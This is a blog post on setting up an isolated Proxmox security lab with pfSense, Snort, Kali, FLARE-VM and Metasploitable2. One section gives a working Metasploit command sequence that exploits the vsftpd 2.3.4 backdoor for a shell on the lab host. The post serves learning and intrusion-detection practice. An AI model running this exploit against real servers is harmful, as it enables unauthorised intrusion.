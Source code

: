 ```yaml
---
title: 'Cyber security lab setup with proxmox for pentesting, malware analysis and intrusion detection'
date: '2024-08-05'
category: security
tags: ['security', 'infrastructure']
images: ['/assets/images/2024-08-05-snort-alerts.png']
---
```


One of my objectives for the [freshly setup Proxmox machine](./why-i-am-adding-virtualisation-with-proxmox-to-my-infrastructure) was to experiment with a (virtual) security lab. In the lab, I want to safely experiment with exploits and the detonation of malware on various machines, so I will need to have full control over the traffic that going into and out of the machines. 

Furthermore, I want to be able to see if anything happening within the lab will trigger an intrusion detection system. Any suspicious behavior should be observable in a dashboard that aggregates these reports and has functionality to trigger notifications.

Let's first make an indexation of all the parts required for this setup:

- A virtual machine host (Proxmox)
- A virtual router (a VM running PFSense)
- An intrusion detection system (Snort, running within PFSense)
- A machine connected to the router (a VM running Kali)

In this first blog, we will focus on setting up the infrastructure for the lab, before we dive into the intrusion detection and the aggregated metrics and logs 

## Setting up the lab
After [installing proxmox](https://www.proxmox.com/en/proxmox-virtual-environment/get-started) and creating a new virtual machine, I used the "download from url" button in the storage / ISO images tab to download [one of the pfsense images](https://atxfiles.netgate.com/mirror/downloads/) directly. I followed [VirtualizationHowto's Youtube video](https://www.youtube.com/watch?v=mwDv790YoZ0) on the quite uneventful installation of PFSense on the machine. 

The thing that is important to keep in mind is that we are creating a virtual, separate network (a "vmbr / network bridge") in proxmox, and configure that network as the lan in the router. After that,  we can connect all the lab machines to the new virtual network and make sure they are separated from our primary, physical network.

## Setting up the attacker machine

After setting up the interfaces, we need to access the PFSense GUI. This can only be done from a machine on the lan of the router, so we will now create our attacker machine: a VM running Kali. There is a qemu image available, that can be installed to proxmox using [the excellent proxmox guide in the kali docs](https://www.kali.org/docs/virtualization/install-proxmox-guest-vm/). Afterwards, connect it to the new vmbr network, boot it and access the pfsense interface through the browser.

## Classic Intrusion detection
We can now setup Snort, the ageold intrusion detection system that analyses a packet stream and matches packets to pre-specified rules. Snort can be conveniently installed as a service in PFSense. I used [the original docs](https://docs.netgate.com/pfsense/en/latest/packages/snort/setup.html) to install the service and setup the rules on which Snort will trigger alerts.

## Setting up a target machine
To complement our linux environments, we will add a new VM, load a windows 10 installation and install [flare-vm](https://github.com/mandiant/flare-vm), an excellent installation package that turns a clean windows machine into an all round malware analysis lab with all sorts of tools and applications to analyse, disassemble malware. The [getting started documentation on github](https://github.com/mandiant/flare-vm) is pretty accurate, just make sure to have ample disk space available as a full install takes about 60GB. The great thing about a virtual target machine is we can use the snapshots to instantly revert our machine to a previous state, so definitely create a snapshot of the machine after installing flare-vm.

## Setting up a vulnerable host
A great kick starter for our lab to get us started with pentesting is running an actually vulnerable server. [Metasploitable2](https://sourceforge.net/projects/metasploitable/files/Metasploitable2/) is a linux machine with a multitude of service installed that are vulnerable. I used [the post by coyo on the proxmox forums](https://forum.proxmox.com/threads/metasploitable2.126195/) to quickly set up this machine using a proxmox root shell:

```
wget https://sourceforge.net/projects/metasploitable/files/Metasploitable2/metasploitable-linux-2.0.0.zip
unzip metasploitable-linux-2.0.0.zip
cd Metasploitable2-Linux/
qemu-img convert -O qcow2 Metasploitable.vmdk metasploitable.qcow2
qm create 300 --memory 2048 --cores 2 --name Metasploitable2 --net0 virtio,bridge=vmbr0 --boot c --bootdisk ide0
qm importdisk 300 metasploitable.qcow2 local-lvm
qm set 300 --ide0 local-lvm:vm-300-disk-0
```

## Launching our first exploit

Of course, this should probably be a completely separate blog, but while we are at it, let's briefly use the Kali VM machine to exploit the vulnerable VSFTP server on metasploitable. Log into the machine, fire up a terminal, launch `msfconsole` and use the following commands to specify the ip of the metasploitable server and watch the magic of a reverse shell happening before your eye:

```
msfconsole
use unix/ftp/vsftpd_234_backdoor
set RHOST=10.0.1.12
exploit

ls
whoami
```

![](../assets/images/2024-08-05-metasploit.png)

## Triggering our first Intrusion Detection alert

Now that the whole lab is setup, we can trigger our first intrusion detection alert, for instance by performing an `nmap` command from our attacker machine. Log into pfsense, go to Services / Snort / Alerts and watch the intrusion detection alerts in the pfsense alert log!

![](../assets/images/2024-08-05-snort-alerts.png)

In the [next blog of the intrusion detection series](./intrusion-detection-observability-with-pfsense-snort-vector-and-loki) we will store these intrusion detection alerts into a Loki log database and visualise the logs in Grafana

